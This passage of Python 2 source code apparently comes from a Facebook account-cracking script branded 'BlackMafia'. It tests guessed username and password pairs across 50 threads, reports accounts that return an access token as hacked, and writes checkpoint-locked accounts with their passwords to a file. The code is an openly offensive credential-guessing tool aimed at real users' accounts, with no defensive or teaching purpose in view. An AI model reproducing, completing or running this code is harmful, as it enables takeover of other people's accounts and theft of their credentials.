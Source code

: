 															q = json.load(data)

															if 'access_token' in q:

																print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass7

																oks.append(user+pass7)

															else:

																if 'www.facebook.com' in q["error_msg"]:

																	print '\x1b[1;96mCheckpoint\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass7

																	cek = open("out/checkpoint.txt", "a")

																	cek.write(user+"|"+pass7+"\n")

																	cek.close()

																	cekpoint.append(user+pass7)

																	

															

		except:

			pass

		

	p = ThreadPool(50)

	p.map(main, id)

	print "\033[1;96m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;93mBlackMafia\033[1;96m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•"

	print "  \033[1;93m«---•◈•---Developed By love-Hacker--•◈•---»" #Dev:love_hacker

	print '\033[1;96m✅Process Has Been Completed Press➡ Ctrl+Z.↩ Next Type (python2 SpiderMan.py)↩\033[1;97m....'

	print"\033[1;92mTotal OK/\x1b[1;93mCP \033[1;93m: \033[1;97m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))

	print """

                         ¸,.-~·¹´¨¨¨¨¨¨¨¨¨¨¨¨¨¨`²·~-.,¸        

                     .·´;:':                              `·. 

                 .·´;;:: ':                                   `·. 

     '        .·´;;;:::  :                  '                     \ 

            /;;;.·´¨¨¨` · .                      . · ´¨¨¨¨`·.     ',    

          ,';;;/;:: :       `·.            '   ·'              \     ; 

          ;';,';;::: :'         '\            ·:                 ',   ; 

          ;'/¸.·´¨¨` · . `·.     ',   !   ,':    .·´ . · ´¨¨¨¨`·.¸\  ;  
